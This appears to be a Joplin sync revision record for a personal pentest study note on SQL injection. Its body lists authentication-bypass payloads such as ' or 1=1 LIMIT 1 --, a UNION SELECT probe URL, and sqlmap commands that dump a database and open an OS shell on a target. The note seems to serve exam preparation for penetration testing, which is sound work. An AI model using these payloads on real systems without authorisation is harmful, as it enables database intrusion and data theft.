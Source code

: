 id: ffd9652d32f74dcb9951a18a1b1ee02b
parent_id: 
item_type: 1
item_id: 576469a387224b88b3c2ffcd806a2cdf
item_updated_time: 1651510073006
title_diff: "[{\"diffs\":[[1,\"SQL Injection\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":14}]"
body_diff: "[{\"diffs\":[[1,\"Testing for Bypasses:\\\n\\\nhttps://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html\\\n\\\nhttps://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/\\\n\\\n' or 1=1 LIMIT 1 --\\\n' or 1=1 LIMIT 1 -- -\\\n' or 1=1 LIMIT 1#\\\n'or 1#\\\n' or 1=1 --\\\n' or 1=1 -- -\\\n\\\ntom' or 1=1;#\\\n\\\ntom' or '1'='1\\\n\\\n# SQLMAP - Not allowed in OSCP\\\n\\\n## sqlmap crawl\\\n\\\nsqlmap -u http://172.21.0.0 --crawl=1\\\n\\\n## sqlmap dump database\\\n\\\nsqlmap -u http://172.21.0.0 --dbms=mysql --dump\\\n\\\n## sqlmap shell\\\n\\\nsqlmap -u http://172.21.0.0 --dbms=mysql --os-shell\\\n\\\n# SQLI\\\n\\\nTesting for a row:\\\n\\\n- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":634}]"
metadata_diff: {"new":{"id":"576469a387224b88b3c2ffcd806a2cdf","parent_id":"17338627f6dc4ef4856d44508b33e0b1","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1597752366033,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-02T16:50:36.066Z
created_time: 2022-05-02T16:50:36.066Z
type_: 13